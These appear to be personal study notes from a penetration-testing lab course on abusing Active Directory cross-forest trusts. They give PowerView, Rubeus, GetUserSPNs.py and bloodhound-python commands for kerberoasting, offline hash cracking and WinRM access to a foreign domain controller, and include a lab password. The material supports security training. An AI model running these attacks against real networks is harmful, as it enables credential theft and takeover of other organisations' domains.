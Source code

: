 --- ---

<h2>Attacking Domain Trusts - Cross-Forest Abuse (Windows)</h2>

1. Enumerate Accounts for Associated SPNs Using Get-DomainUser
```
PS C:\htb> Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName
```

2. Enumerate the mssqlsvc Account
```
PS C:\htb> Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof
```

3. Perform Kerberoasting with Rubeus Using /domain Flag
```
PS C:\htb> .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL/user:mssqlsvc /nowrap
```
- We could then run the hash through Hashcat. If it cracks, we've now quickly expanded our access to fully control two domains by leveraging a pretty standard attack and abusing the authentication direction and setup of the bidirectional forest trust.



Admin Password Re-Use & Group Membership

We can use the PowerView function Get-DomainForeignGroupMember to enumerate groups with users that do not belong to the domain, also known as foreign group membership. Let's try this against the FREIGHTLOGISTICS.LOCAL domain with which we have an external bidirectional forest trust.

1. Use Get-DomainForeignGroupMember (PowerView)
![[Pasted image 20230105191023.png]]
The above command output shows that the built-in Administrators group in FREIGHTLOGISTICS.LOCAL has the built-in Administrator account for the INLANEFREIGHT.LOCAL domain as a member. We can verify this access using the Enter-PSSession cmdlet to connect over WinRM.

2. Access DC03 Using Enter-PSSession
```
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator
```

From the command output above, we can see that we successfully authenticated to the Domain Controller in the FREIGHTLOGISTICS.LOCAL domain using the Administrator account from the INLANEFREIGHT.LOCAL domain across the bidirectional forest trust. This can be a quick win after taking control of a domain and is always worth checking for if a bidirectional forest trust situation is present during an assessment and the second forest is in-scope.



SID History Abuse - Cross Forest
![[Pasted image 20230105191151.png]]

---

<h2>Attacking Domain Trusts - Cross-Forest Abuse (Linux)</h2>

Cross-Forest Kerberoasting

1. Use GetUserSPNs.py
```
TeneBrae93@htb[/htb]$ GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
```
- -request flag added gives us the TGS ticket.
- Crack the hash with hashcat



Hunting Foreign Group Membership with Bloodhound-python

1. Add INLANEFREIGHT.LOCAL Information to /etc/resolv.conf
![[Pasted image 20230105191332.png]]

2. Run bloodhound-python Against INLANEFREIGHT.LOCAL
```
TeneBrae93@htb[/htb]$ bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2
```

3. Compress the files with zip -r
```
TeneBrae93@htb[/htb]$ zip -r ilfreight_bh.zip *.json
```

4. Add freightlogistics.local to /etc/resolv.conf
![[Pasted image 20230105191426.png]]

5. Run bloodhound-python Against FREIGHTLOGISTICS.LOCAL
```
TeneBrae93@htb[/htb]$ bloodhound-python -d FREIGHTLOGISTICS.LOCAL -dc ACADEMY-EA- DC03.FREIGHTLOGISTICS.LOCAL -c All -u forend@inlanefreight.local -p Klmcargo2
```

- After uploading the second set of data (either each JSON file or as one zip file), we can click on Users with Foreign Domain Group Membership under the Analysis tab and select the source domain as INLANEFREIGHT.LOCAL
- We will see the built-in Administrator account for the INLANEFREIGHT.LOCAL domain is a member of the built-in Administrators group in the FREIGHTLOGISTICS.LOCAL domain as we saw previously.

![[Pasted image 20230105191533.png]]